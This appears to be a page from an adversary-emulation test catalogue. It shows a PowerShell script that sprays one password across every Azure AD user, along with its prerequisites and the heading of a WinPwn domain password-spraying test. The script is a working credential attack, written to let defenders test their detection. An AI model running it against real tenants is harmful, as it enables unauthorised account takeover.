 #### Attack Commands: Run with `powershell`!

```powershell
Import-Module -Name AzureAD
$PWord = ConvertTo-SecureString -String "#{valid_password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{valid_username}", $Pword
Connect-AzureAD -Credential $Credential > $null

($Users = Get-AzureADUser -All $true) > $null
Disconnect-AzureAD > $null
$PWord = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force

$Users | Foreach-Object {
  $user = $_.UserPrincipalName
  $Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "$user", $Pword
  try {
    Write-Host " [-] Attempting #{password} on account ${user}."
    Connect-AzureAD -Credential $Credential 2>&1> $null
    # if credentials aren't correct, it will break just above and goes into catch block, so if we're here we can display success
    Write-Host " [!] ${user}:#{password} are valid credentials!`r`n"
    Disconnect-AzureAD > $null
  } catch {
    Write-Host " [-] ${user}:#{password} invalid credentials.`r`n"
  }
}
Write-Host "End of password spraying"
```

#### Dependencies: Run with `powershell`!

##### Description: AzureAD module must be installed.

##### Check Prereq Commands:

```powershell
try {if (Get-InstalledModule -Name AzureAD -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```

##### Get Prereq Commands:

```powershell
Install-Module -Name AzureAD -Force
```

<br/>
<br/>

## Atomic Test #5 - WinPwn - DomainPasswordSpray Attacks

DomainPasswordSpray Attacks technique via function of WinPwn
